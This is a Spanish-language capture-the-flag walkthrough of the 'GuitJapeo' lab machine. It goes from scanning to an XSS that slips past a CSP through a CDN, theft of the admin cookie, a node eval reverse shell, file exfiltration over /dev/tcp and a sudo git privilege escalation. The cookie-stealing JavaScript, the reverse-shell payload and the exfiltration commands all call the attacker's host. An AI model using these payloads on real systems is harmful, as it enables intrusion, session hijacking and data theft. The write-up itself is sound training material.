

Máquina "GuitJapeo" de [TheHackersLabs](https://thehackerslabs.com/)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Experto

# RECONOCIMIENTO

En mi caso la ip de la máquina es: 192.168.152.163

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -n -Pn --open --min-rate 5000 192.168.152.163 -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Sep 25 22:07:58 2024 as: nmap -sSVC -n -Pn --open --min-rate 5000 -vvv -oN escaneo.txt 192.168.152.163
Nmap scan report for 192.168.152.163
Host is up, received arp-response (0.0023s latency).
Scanned at 2024-09-25 22:07:58 -03 for 15s
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:f7:30:5e:e8:28:bb:0e:cd:8e:5e:9c:33:f0:0a:cd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKzvJfeTfHxU/B++TaK9yRRuWculGoBFJ5+NpsEoZy4EiMZEQJMFB69zHbsEvBDiUHMV7xUMpfIJLmRaXaLAL5Q=
|   256 04:50:bf:6f:21:23:ba:3a:c0:d2:89:d3:19:60:b1:03 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIu1GSx3TCwy4Y0PKv1rVjKJQ6vLz45A+OjBNd/iZ83m
80/tcp  open  http     syn-ack ttl 64 nginx 1.22.1
|_http-title: Welcome to nginx!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.22.1
443/tcp open  ssl/http syn-ack ttl 64 nginx 1.22.1
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=guitjapeo.thl/organizationName=Company/stateOrProvinceName=State/countryName=US/localityName=City/organizationalUnitName=Org
| Issuer: commonName=guitjapeo.thl/organizationName=Company/stateOrProvinceName=State/countryName=US/localityName=City/organizationalUnitName=Org
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-21T01:00:07
| Not valid after:  2025-09-21T01:00:07
| MD5:   4a76:4cb0:c541:4218:296f:4df9:ca7f:18fd
| SHA-1: 8695:9c33:7bd4:2c09:92c4:3467:aba7:26a7:ff66:cf44
| -----BEGIN CERTIFICATE-----
| MIIDqTCCApGgAwIBAgIUJsV1wNMizlBeYvBXfkUb4lE/LB0wDQYJKoZIhvcNAQEL
| BQAwZDELMAkGA1UEBhMCVVMxDjAMBgNVBAgMBVN0YXRlMQ0wCwYDVQQHDARDaXR5
| MRAwDgYDVQQKDAdDb21wYW55MQwwCgYDVQQLDANPcmcxFjAUBgNVBAMMDWd1aXRq
| YXBlby50aGwwHhcNMjQwOTIxMDEwMDA3WhcNMjUwOTIxMDEwMDA3WjBkMQswCQYD
| VQQGEwJVUzEOMAwGA1UECAwFU3RhdGUxDTALBgNVBAcMBENpdHkxEDAOBgNVBAoM
| B0NvbXBhbnkxDDAKBgNVBAsMA09yZzEWMBQGA1UEAwwNZ3VpdGphcGVvLnRobDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJXkbVK7pl2c+DPCwGuU2eY+
| GYG+CFoFV5FKe98CVl3bn7b47EO8wGb9vzECUKQYbk7VgB2WrA0pBdKKYmJPkCPe
| o0UO7UbO9769f9xdYoVK2xiF3rpJDqui9WzE0H7UkxFCXMvEOoZi2nGk/BqgzMoi
| 9IncTyT+hGufcFBUsFdmIrJ5b+CSlK4WHJaKYnt3A6crPxZIRhA6FJgwKvQ1YYh3
| IQqS32fjlmWVhoORCilAWS+6RzqdM5dznbGMginNlAA9YB7TuQopML4xFAkSPPCW
| urWcQ6HC4osKjrOUbDHMzZcrcT1r4v646ptkPyZajqbeNBSsaQNo2neSy7ZUZbUC
| AwEAAaNTMFEwHQYDVR0OBBYEFIsL7nk18MUu7Y6dwG/6fGZDP/PnMB8GA1UdIwQY
| MBaAFIsL7nk18MUu7Y6dwG/6fGZDP/PnMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZI
| hvcNAQELBQADggEBADiub5qLVGijlnEFD3sDmdaKuAdY2u1dlDYSpF9FA/jXCrcI
| PPLGzeaRAJqaQ4jGPoo9/RUCPx6juWjnp918M2x6KJQ1ctMDSflE1ZoORVttJwRc
| Ws9/UoPLsmfNHnWDgaEakRTXNmU81tCnSflp3U3GwkEt5nhiLdoKfq1borCq3Zub
| ehA9AJQrlkLKAox56bY7caFN5Bgx58gYGHh2QWnYecunCgzLU3sUA9OQ6QVOlTGt
| GaAREzzYuH9J8mP/HalyANLMYn2/GEE/nOkLDtmmtL7ANB+rX8H5KI+OgAHu0yXA
| QxzbDDOZWO5pIRGU6uzAZ/qWkvYLmek7eJ/YdJo=
|_-----END CERTIFICATE-----
|_http-title: Animaci\xC3\xB3n Personalizada
|_http-server-header: nginx/1.22.1
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:7B:91:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 25 22:08:13 2024 -- 1 IP address (1 host up) scanned in 15.74 seconds
```

`El puerto 80 y 443 están corriendo: nginx 1.22.1`

`El puerto 22 está corriendo: OpenSSH 9.2p1`

Y estamos frente a un linux debian.

#### Puerto 80:


Al parecer es una página que hace una animación y podemos escribir para que la haga con la frase o palabra que le digamos.

Ahora usaremos `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u https://guitjapeo.thl/ -w <wordlist> -x php,html,txt -k 
```


Eso es lo que encontramos y lo único que necesitamos, por lo que vamos a `/login` y veremos un panel de login, como no tenemos usuario nos registraremos y luego iniciaremos sesion. Una vez dentro estaremos en `/messages` y veremos lo siguiente:


Al parecer podemos enviarle mensajes al administrador y con una url, podriamos ponernos con un servidor http.server de python y ver si realmente entra o trata de otra cosa. Para esto haremos lo siguiente:

​    •Primero nos montamos el servidor con python3:

```css
python3 -m http.server 80
```

​    •Segundo, le enviamos el siguiente link al administrador (reemplaza la ip por la tuya):

```
http://192.168.152.216/
```

Una vez hecho eso, esperamos y recibiremos lo siguiente:


Como vemos, hemos confirmado que el administrador entra al link. Ahora podriamos probar en robar su cookie, pero el problema es que la cookie tiene activado httponly:


Esto significa que no podremos robársela al administrador. [Explicacion completa](https://www.curiosidadesdehackers.com/2024/05/httponly-session-hijacking-xss.html)

También si nos fijamos con burpsuite, veremos que cuando enviamos un mensaje, envia la peticion a `/api/messages`. Viendo que existe esa carpeta, podriamos usar gobuster en ella:

```css
gobuster dir -u https://guitjapeo.thl/api -w <wordlist> -x php,html,txt -k 
```


Como vemos tenemos un `info` y `users`, pero lo que nos importa es info, ya que si entramos desde el navegador veremos lo siguiente:



Como vemos, muestra la cookie, por lo que ya tenemos algo muy útil. Ahora si revisamos la página del principio, veremos que en donde se puede poner texto para la animacion es vulnerable a XSS, esto nos podria ayudar a robar la cookie del administrador, pero si nos fijamos, está protegido por un `Content-Security-Policy`. Si vamos a [Csp-evaluator](https://csp-evaluator.withgoogle.com/) y pegamos las que encontramos, nos dirá lo siguiente:


Como vemos tenemos uno crítico el cual nos permitirá robar la cookie del administrador.

# INTRUSION

Ahora probaremos si es posible robar la cookie, para esto tendremos que hacer lo siguiente:

• Crearnos una cuenta de github si no tenemos

• Crear un repositorio público (luego lo borramos)

• Crear un archivo .js con el siguiente contenido pero reemplazando la ip por la tuya:

```json
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    var req2=new XMLHttpRequest();
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.152.216/?data="+btoa(sess);
};
```

`Este código realiza una solicitud GET a `https://guitjapeo.thl/api/info`, y espera que el servidor responda con un objeto JSON que contenga una propiedad `cookie`. Una vez que recibe la respuesta, redirige al usuario a `http://192.168.56.216/?data=`, pasando la cookie obtenida codificada en Base64 como un parámetro de consulta.`

• Una vez subido el archivo, montamos un servidor http con python3:

```css
python3 -m http.server 80
```

• Ahora solo nos quedaría desde el navegador, poner el siguiente XSS:

```css
<script src="https://cdn.jsdelivr.net/gh/<Nuestro usuario de github>/<Repositorio>@main/<nombre del archivo .js>"></script>
```

En mi caso seria así:

```css
<script src="https://cdn.jsdelivr.net/gh/Maciferna/Temporal@main/cookies.js"></script>
```

Usaremos "cdn.jsdelivr.net" porque si nos fijamos en el CSP el script-src permitia la carga de scripts desde ese dominio.

###### Mas información sobre el tema: [HackTricks](https://book.hacktricks.xyz/v/es/pentesting-web/content-security-policy-csp-bypass)

Una vez hecho todo eso recibiremos esto en el servidor:


Como vemos, el robo de cookies es correcto, por lo que ahora simplemente le enviamos este enlace al administrador:

```css
https://guitjapeo.thl/?text=<script src="https://cdn.jsdelivr.net/gh/Maciferna/Temporal@main/cookies.js"></script>
```

Ahora conseguimos la cookie del administrador:


Ahora solo vamos al panel e iniciamos sesion, luego cambiamos nuestra cookie por la del administrador.


Como vemos, en su panel hay un nuevo boton para limpiar usuarios, el cual nos manda a `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, al parecer está ejecutando codigo javascript, por lo que enviaremos una reverse shell con este payload:

```css
eval(`require('child_process').exec('bash -c "bash -i >& /dev/tcp/192.168.152.216/443 0>&1"')`);
```

Solo que en url encode.

(Claramente antes hay que escuchar con netcat: `sudo nc -nlvp 443`)

# ESCALADA DE PRIVILEGIOS

### Lenam

Estando dentro seremos el usuario Lenam.

Si revisamos un poco, veremos que la web tiene un .git, esto significa que pueden haber commits o archivos borrados que todavia se pueden restaurar. Para ver eso ejecutamos en el mismo directorio esto:

```css
git status
```

```abap
lenam@guitjapeo:~/.local/bin/web$ git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   archivo.zip
	new file:   password.txt

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	modified:   administrador.js
	deleted:    archivo.zip
	modified:   index.js
	deleted:    password.txt

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	%26
	%261
	isolated-data/

lenam@guitjapeo:~/.local/bin/web$ 
```

Como vemos hay dos archivos borrados, uno es "archivo.zip" y el otro es "password.txt", por lo que los restauramos de la siguiente manera:

```css
git restore archivo.zip && git restore password.txt
```

Una vez restaurados, tendremos que pasarnos ambos a nuestra máquina atacante, ya que no contamos ni con zip ni 7z. Como tampoco contamos con python3, haremos lo siguiente:

Primero escuchamos con netcat de la siguiente manera:

```css
nc -nlvp 9090 > archivo.zip
```

Luego desde la máquina victima ejecutamos lo siguiente:

```css
cat archivo.zip > /dev/tcp/192.168.152.216/9090
```

y hacemos lo mismo para el password.txt.

Ahora si nos fijamos, el archivo.zip tiene contraseña, pero nos la dan en el password.txt al ejecutar ese archivo con el lenguaje que nos dice en el comentario de la primera línea. El problema de esto, es que parecen ser muchisimos archivos así, y que siempre el password.txt está o en `python`, `ruby`, `php` o `javascript`, por lo que sabiendo esto crearemos un script en python que lo que haga sea revisar el password.txt, ver en que lenguaje está y luego ejecutar el password.txt según el lenguaje que corresponda. 

## Script:

```python
import os
import subprocess


def manejar_php():
    result = subprocess.run(['php', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_javascript():
    result = subprocess.run(['node', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_python():
    result = subprocess.run(['python', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
def manejar_ruby():
    result = subprocess.run(['ruby', 'password.txt'], capture_output=True, text=True)
    password = result.stdout.strip()
    comando = ['7z', 'x', f'-p{password}', '-aoa', 'archivo.zip']
    result = subprocess.run(comando, capture_output=True, text=True)
    print(result.stdout)
patrones_a_funciones = {
    'PHP': manejar_php,
    'JavaScript': manejar_javascript,
    'Python': manejar_python,
    'Ruby': manejar_ruby
}


while True:
    encontrado = False

    with open('./password.txt', 'r') as archivo:
        for linea in archivo:
            for patron, funcion in patrones_a_funciones.items():
                if patron in linea:
                    funcion()  
                    encontrado = True

    if not encontrado:
        os.system("clear")
        print("Último archivo descomprimido. Saliendo...")
        os.system("rm archivo.zip")
        os.system("cat password.txt")
        exit()
```

Para este script se necesita tener instaladas las siguientes herramientas:

• Node

• Php

• Python

• Ruby

• 7z

Una vez ejecutado veremos lo siguiente:

```css
Último archivo descomprimido. Saliendo...
La última contraseña es: {[XY2P_oODN)
```

Al parecer la contraseña del usuario lenam es `{[XY2P_oODN)`. Ahora si ejecutamos `sudo -l` y ponemos la contraseña, veremos que podemos ejecutar git como root. Por lo que luego de buscar una escalada, encontré esta que en mi caso funcionó:

```css
TF=$(mktemp -d)
ln -s /bin/bash "$TF/git-x"
sudo git "--exec-path=$TF" x
```

Una vez hecho eso, **ya seremos root** y podremos leer las flags:


Gracias por leer....